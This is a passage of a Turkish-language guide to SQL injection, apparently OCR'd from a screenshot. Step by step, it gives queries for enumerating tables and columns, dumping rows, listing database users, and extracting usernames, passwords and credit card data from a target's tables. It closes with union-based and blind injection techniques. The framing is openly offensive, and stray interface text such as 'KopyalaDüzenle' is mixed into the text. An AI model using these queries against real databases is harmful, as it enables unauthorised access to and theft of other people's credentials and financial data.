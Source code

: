 ```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name';
```
3. Veritabanındaki Verileri Çekme
Bir tablonun yapılarını öğrendikten sonra, o tablodan veri çekmeye başlayabilirsin. Veritabanındaki verileri almak için aşağıdaki sorguları kullanabilirsin.
MySQL / MariaDB:
sql
```sql
UNION SELECT null, null, null, column_name FROM your_table_name;
```
PostgreSQL:
PostgreSQL’de tablodan veri çekmek için şu sorguyu kullanabilirsin:
sql
```sql
SELECT * FROM your_table_name LIMIT 10;
```
MS SQL Server:
MS SQL Server’da veri çekmek için:
sql
```sql
SELECT TOP 10 * FROM your_table_name;
```
4. Veritabanı Kullanıcıları ve İzinlerini Öğrenme
Veritabanındaki kullanıcılar ve izinlerle ilgili bilgi edinmek için aşağıdaki sorguları kullanabilirsin:
MySQL:
Veritabanı kullanıcı adı almak için:
sql
```sql
SELECT user();
```
PostgreSQL:
PostgreSQL’de kullanıcıları öğrenmek için:
sql
KopyalaDüzenle
```sql
SELECT usename FROM pg_user;
```
MS SQL Server:
MS SQL Server’da kullanıcı bilgilerini öğrenmek için:
sql
```sql
SELECT name FROM sys.syslogins;
```
5. Hassas Verileri Elde Etme
Eğer hedefinde hassas veriler varsa, örneğin kullanıcı adları, şifreler veya kredi kartı bilgileri gibi, bunları belirli tablolar üzerinden elde edebilirsin. Örneğin, çoğu veritabanında kullanıcı bilgilerini içeren users, accounts, customers gibi tablolar olabilir.
Bu tür veriler genellikle şu sütunları içerir:
username, password, email, credit_card gibi sütunlar.
Veri çekme sorgusunu şu şekilde yazabilirsin:
sql
```sql
SELECT username, password FROM users;
```
6. İleri Düzey Sorgular
Union-based SQL Injection ile farklı tabloları birleştirme, veritabanı içeriği hakkında daha fazla bilgi edinmeni sağlayabilir.
Time-based Blind SQL Injection veya Boolean-based Blind SQL Injection ile sunucunun nasıl tepki verdiğini gözlemleyerek veri çekme işlemini hızlandırabilirsin.
Örnek sorgularla zamanlama yaparak veya doğru/yanlış sorgularla verileri çekebilirsin:
sql
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password' AND 1=1;  -- doğru sonuç verir
```